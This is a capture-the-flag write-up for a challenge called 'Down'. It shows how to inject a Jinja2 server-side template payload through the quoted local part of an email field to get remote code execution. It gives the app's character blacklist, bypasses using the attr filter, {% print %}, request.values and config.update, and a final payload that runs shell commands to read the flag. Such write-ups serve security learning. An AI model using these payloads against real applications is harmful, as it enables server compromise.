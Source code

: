 
### Down - 440 points  (7 solves)
The idea behind this challenge is to inject an SSTI payload within an email form in order to get RCE. So the steps to do that are the following. 

First, we should understand what characters are not allowed in an email. Reading a bunch of articles I found this one [link](https://stackoverflow.com/questions/2049502/what-characters-are-allowed-in-an-email-address). 

![alt text](https://i.imgur.com/wmFpHS6.png)


We conclude from here the main structure of our payload. ==> The exploit will be in the local part of the email and between double quotes. 

Next, examining the source code we notice two restrictions that are being applied on the input.

1. BLACKLIST = ["{{", "}}", "_", "[", "]", "\\", "args", "form", "'"]
2. len(request.form.get("email")) >  100 

So we checked payloadsallthings and grabbed the shortest payloads: 

    {{cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() }}

Now how to bypass the filtered characters. We google each blacklisted character and check for possible ways to do this. Here's the result:

* For _**underscore**_ bypassing, we used the **_attr filter_**
* For ***curly brackets*** bypassing, we used ***{% print(expression) %}*** ; the print here will allow us to execute our payload.
* For ***single quote*** and ***"args"*** bypassing, we used ***request.values***

Applying all this, we could have the following payload:

    email="{%print((cycler|attr(request.values.a)|attr(request.values.b)).os.popen(request.values.m).read())%}"@pm.me&a=\_\_init_\_&b=\_\_globals\_\_&m=id

But this will trigger the length check as it exceeds 100 characters, so for an even ***shorter payload*** we used a trick that allows us to include variables within the config object and then use them with just ***config.var_name***. This is done thanks to the *config.update* function available in jinja2. 

    email="{%print(config.update(m=request.values.m))%}"%40gmail.com&m=cat%20flag.txt


> The `config` object refers to the configuration of the environment   
> where the Jinja2 template is being executed. It provides access to   
> various configuration settings and options available within Jinja2   
> templates.

We can then confirm that this was successfully updated within the config object.

![alt text](https://i.imgur.com/0q3wfdW.png)


And finally we change the `request.values` in the previous payload with `config` and get the flag! 

**Final payload:**

    email="{%print((cycler|attr(config.a)|attr(config.b)).os.popen(config.m).read())%}"%40pm.me

